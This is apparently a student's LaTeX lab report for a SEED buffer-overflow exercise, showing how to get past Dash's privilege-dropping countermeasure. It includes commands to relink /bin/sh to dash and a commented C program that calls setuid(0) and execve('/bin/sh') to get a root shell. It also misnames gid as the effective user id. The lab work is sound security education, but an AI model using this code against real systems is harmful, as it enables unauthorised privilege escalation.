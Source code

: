 \documentclass[14pt]{extarticle}
\begin{document}
\section{Task 3 - Defeating Dash's countermeasure}
Dash compares the gid (effective user id) and uid (real user id) of the program
Since sh is set as a symlink to Dash on most linux systems, I will attempt to overcome this countermeasure without switching the default shell of the system.
To start I will symlink sh back to dash (I changed sh to symlink to zsh at the start of the lab, so it will need to be changed back).\\
\begin{lstlisting}[language=bash]
sudo rm /bin/sh
sudo ln -s /bin/dash /bin/sh
\end{lstlisting} \cite{seed-bof}\\
Here is the dash\_shell\_test.c program that is given for the lab (with some added comments):\\
\begin{lstlisting}[language=c]
/* dash_shell_test.c */
// include the required libraries just as before with the original exploit code
#include <stdio.h>
// to allow the setuid command to work, there are a couple more libraries that are needed
#include <sys/types.h>
#include <unistd.h>
int main()
{
  // a char array to hold our command to execute.
  char *argv[2];
  // For this lab I will execute the sh command, but any command could be executed here
  argv[0] = "/bin/sh";

  // Since I dont need any parameters, and to end the string, A NULL will be set to the last value of the string
  argv[1] = NULL;

  // This line will be used to overcome the countermeasure in dash
  // since the shell will now be executed with the users id matching the programs execution it, it wont try to reset the user permissions
  setuid(0);

  // the execve is a system call that will execute the given command.
  // for this attack I will use the execve command to gain access to a shell with elevated permissions
  // the execve command could execute a different program if needed, but a shell will work for this lab
  execve("/bin/sh", argv, NULL);

  return 0;
}
\end{lstlisting} \cite{seed-bof}\\
Now I will compile the dash\_shell\_test.c program to see how dash will react to the setuid() command.
\begin{lstlisting}[language=bash]
gcc dash_shell_test.c -o dash_shell_test
\end{lstlisting}
\end{document}
